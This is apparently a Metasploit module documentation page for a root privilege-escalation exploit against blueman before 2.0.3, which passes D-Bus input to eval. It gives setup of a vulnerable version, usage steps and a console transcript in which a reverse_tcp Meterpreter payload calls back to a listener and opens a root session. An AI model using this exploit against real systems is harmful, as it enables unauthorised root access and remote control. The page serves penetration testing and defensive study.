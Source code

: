 ## Description

  This module attempts to gain root privileges by exploiting a Python
  code injection vulnerability in blueman versions prior to 2.0.3.

  The `org.blueman.Mechanism.EnableNetwork` D-Bus interface exposes the
  `set_dhcp_handler` function which uses user input in a call to `eval`,
  without sanitization, resulting in arbitrary code execution as root.

  This module has been tested successfully with blueman version 1.23
  on Debian 8 Jessie (x64).


## Vulnerable Application

  This module has been tested successfully with:

  * blueman version 1.23 on Debian 8 Jessie (x64)

  Old versions of the `blueman` package are available in [Debian snapshots](https://snapshot.debian.org/).

  The following `/etc/apt/sources.list` configuration will allow a vulnerable
  version of the `blueman` package to be installed:
 
  ```
  deb [check-valid-until=no] http://snapshot.debian.org/archive/debian/20140827T042507Z/ jessie main
  deb-src [check-valid-until=no] http://snapshot.debian.org/archive/debian/20140827T042507Z/ jessie main
  ```

  The package can be installed with `apt-get install blueman`


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/blueman_set_dhcp_handler_dbus_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf5 > use exploit/linux/local/blueman_set_dhcp_handler_dbus_priv_esc 
  msf5 exploit(linux/local/blueman_set_dhcp_handler_dbus_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/blueman_set_dhcp_handler_dbus_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(linux/local/blueman_set_dhcp_handler_dbus_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(linux/local/blueman_set_dhcp_handler_dbus_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.DKJWL0TG7sm0M5' (249 bytes) ...
  [*] Executing payload...
  [*] Sending stage (861348 bytes) to 172.16.191.156
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.156:58863) at 2018-12-24 02:44:25 -0500
  [+] Deleted /tmp/.DKJWL0TG7sm0M5

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : debian-8-1-x64.local
  OS           : Debian 8.1 (Linux 3.16.0-4-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

